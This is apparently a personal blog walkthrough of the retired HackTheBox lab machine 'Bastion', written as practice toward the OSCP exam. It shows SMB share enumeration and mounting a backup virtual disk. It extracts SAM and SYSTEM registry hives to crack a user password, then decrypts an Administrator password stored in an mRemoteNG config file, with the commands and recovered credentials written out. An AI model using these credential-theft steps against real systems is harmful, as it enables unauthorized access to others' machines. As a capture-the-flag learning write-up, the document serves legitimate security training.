






[HackTheBox]
htb{Bastion}
A bit old by now but one of my favorites boxes to root; since I had some familiarity with SMB.
We have the basic information for the box, It’s a Windows Machine we got IP and off we go..
Let's get into it! .

root@kek:/# ping bastion.htb
PING bastion (10.10.10.134) 56(84) bytes of data.
64 bytes from bastion (10.10.10.134): icmp_seq=1 ttl=127 time=184 ms
64 bytes from bastion (10.10.10.134): icmp_seq=2 ttl=127 time=178 msNow we scan for ports and interesting stuff:
| nmap -sV -sC -sC -T4 -oA Bastion 10.10.10.134PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
| 2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
| 256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_ 256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2–2012; CPE: cpe:/o:microsoft:windows| smb-os-discovery:
| OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
| Computer name: Bastion
| NetBIOS computer name: BASTION\x00
| Workgroup: WORKGROUP\x00
|_ System time: 2020–05–26T04:39:56+02:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2020–05–25 22:39:57
|_ start_date: 2020–05–25 18:03:52> Here we got two routes, we can directly check if we can use something like the good ol’ msf or smbmap;
Let’s go first with msf, we are going to use the scanner: auxiliary/scanner/smb/smb_enumshares.
msf5 > use auxiliary/scanner/smb/smb_enumsharesmsf5 auxiliary(scanner/smb/smb_enumshares) > set rhost 10.10.10.134
rhost => 10.10.10.134
msf5 auxiliary(scanner/smb/smb_enumshares) > set showfiles yes
showfiles => true and Exploit/run!
msf5 auxiliary(scanner/smb/smb_enumshares) > exploit
[-] 10.10.10.134:139 — Login Failed: Unable to Negotiate with remote host
[+] 10.10.10.134:445 — ADMIN$ — (DS) Remote Admin
[+] 10.10.10.134:445 — Backups — (DS)
[+] 10.10.10.134:445 — C$ — (DS) Default share
[+] 10.10.10.134:445 — IPC$ — (I) Remote IPC
[*] 10.10.10.134: — Scanned 1 of 1 hosts (100% complete) It’s always nice to see a backup dir laying around. Using SMBMap can be quite fast also;
root@kek:~/htb/bastion# smbmap -H 10.10.10.134 -u guest
[+] Finding open SMB ports….
[+] User SMB session establishd on 10.10.10.134…
[+] IP: 10.10.10.134:445 Name: bastion.htb
Disk Permissions
— — — — — — — -
ADMIN$ NO ACCESS
Backups READ, WRITE
[!] Unable to remove test directory at \\10.10.10.134\Backups\tBNzRnYGJM, plreae remove manually
C$ NO ACCESS
IPC$ READ ONLY | root@kek:~/htb/bastion# smbmap -u guest -H 10.10.10.134 -R Backups
Interesting enough we got a note.txt and some .vhd files that immediately took my attention; vhd files are virtual hard disks but look at the size ( ͡° ͜ʖ ͡°)
Let’s look at note.txt|root@kek:~/htb/bastion# cat 10.10.10.134-Backups_note.txt
|Sysadmins: please don’t transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
Indeed trying to pull out the vhd will take some time, so there’s two options, trying to mount the vhd or pulling the files out first.
We are going to try to mount it;
| root@kek:~/htb/bastion# mkdir /mnt/bastion
| root@kek:~/htb/bastion# cd /mnt/bastion/
| root@kek:/mnt/bastion# mount -t cifs //10.10.10.134/Backups /mnt/bastion -o rw
| Password for root@//10.10.10.134/Backups: | root@kek:/mnt# ls -lah bastion/
| total 8.5K
| drwxr-xr-x 2 root root 4.0K May 25 18:28 .
| drwxr-xr-x 5 root root 4.0K May 25 18:27 ..
| drwxr-xr-x 2 root root 0 May 25 18:28 CaShLznVPF
| drwxr-xr-x 2 root root 0 May 25 18:20 MfNzIPZylH
| -r-xr-xr-x 1 root root 116 Apr 16 2019 note.txt
| drwxr-xr-x 2 root root 0 May 25 18:17 pIrubieZcm
| -rwxr-xr-x 1 root root 0 Feb 22 2019 SDT65CB.tmp
| drwxr-xr-x 2 root root 0 May 25 18:18 tBNzRnYGJM
| drwxr-xr-x 2 root root 0 Feb 22 2019 WindowsImageBackup and we going for the files in the vhd’s.
|root@kek:/mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup 2019–02–22 124351# ls -lah
|total 5.1G
|drwxr-xr-x 2 root root 8.0K Feb 22 2019 .
|drwxr-xr-x 2 root root 4.0K Feb 22 2019 ..
|-rwxr-xr-x 1 root root 37M Feb 22 2019 9b9cfbc3–369e-11e9-a17c-806e6f6e6963.vhd
|-rwxr-xr-x 1 root root 5.1G Feb 22 2019 9b9cfbc4–369e-11e9-a17c-806e6f6e6963.vhd
|-rwxr-xr-x 1 root root 1.2K Feb 22 2019 BackupSpecs.xml now, how the h*ck we mount those vhd? well, I learned how to using this stackoverflow: https://stackoverflow.com/questions/36819474/how-can-i-attach-a-vhdx-or-vhd-file-in-linux
|root@kek:/mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup 2019–02–22 124351# guestmount — add /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019–02–22\ 124351/9b9cfbc4–369e-11e9-a17c-806e6f6e6963.vhd — inspector — ro /mnt/vhd -v 
Explored Users and found no flag tho.
But hey! we got a “Windows\System32\config” dir!
So we pull both SAM and SYSTEM files.

Now we got the hash and we need to crack it, either online on some repo or hash cat :)
|The hash will contain the pass bureaulampjenooow, we got an user and a password.
If we go back we could either go back the SMB route or the SSH, since we got a credential to try let’s give SSH a chance:
| root@kek:~/htb/bastion# ssh L4mpje@10.10.10.134
L4mpje@10.10.10.134’s password:
Microsoft Windows [Version 10.0.14393]
© 2016 Microsoft Corporation. All rights reserved.
l4mpje@BASTION C:\Users\L4mpje>whoami
bastion\l4mpje 
Now we go back to lookup and we have access and whatnot.
Let’s see how we can get to root.txtDirectory of C:\Program Files (x86)
22–02–2019 15:01 <"DIR> .
22–02–2019 15:01 <"DIR> ..
16–07–2016 15:23 <"DIR> Common Files
23–02–2019 10:38 <"DIR> Internet Explorer
16–07–2016 15:23 <"DIR> Microsoft.NET
22–02–2019 15:01 <"DIR> mRemoteNG
23–02–2019 11:22 <"DIR> Windows Defender
23–02–2019 10:38 <"DIR> Windows Mail
23–02–2019 11:22 <"DIR> Windows Media Player
16–07–2016 15:23 <"DIR> Windows Multimedia Platform
16–07–2016 15:23 <"DIR> Windows NT
23–02–2019 11:22 <"DIR> Windows Photo Viewer
16–07–2016 15:23 <"DIR> Windows Portable Devices
16–07–2016 15:23 <"DIR> WindowsPowerShell
0 File(s) 0 bytes
14 Dir(s) 11.305.861.120 bytes free
Looking up more info on vulnerabilities or stuff on mRemoteNG we found this on the web: https://hackersvanguard.com/mremoteng-insecure-password-storage/
soooooo let’s take a look at the conf file at “\Users\L4mpje\AppData\Roaming\mRemoteNG” I pretty much just did a “type confCons.xml” saved into a file and then less through the file to find the password between the lines:
Icon=”mRemoteNG” Panel=”General” Id=”500e7d58–662a-44d4-aff0–3a4f547a3fee” Userna
me=”Administrator” Domain=”” Password=”aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==”
Hostname=”127.0.0.1"Once decrypted you’ll have the password, be able to ssh into the box as administrator, grab the flag and call it a day! :)
root@kek:~/htb/bastion/mremoteng-decrypt# python3 mremoteng_decrypt.py -s “aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==”
Password: thXLHM96BeKL0ER2
root@kek:~/htb/bastion/mremoteng-decrypt# ssh administrator@10.10.10.134
administrator@10.10.10.134’s password:
Hope this was at someway useful, informative perhaps. Even though this is a bit of an old box it’s always good to go back and practice a bit.
Keep in consideration I am not by any means an expert or highly efficient on this yet and a lot of the process was trimmed in order to keep the post as short as I could.
Hopefully I will be uploading a write up for retired machiones, every Monday from now on until end of year (Which the target is the OSCP exam) :)
Thanks for taking the time to read this or skip here too!
Hack the planet! x)
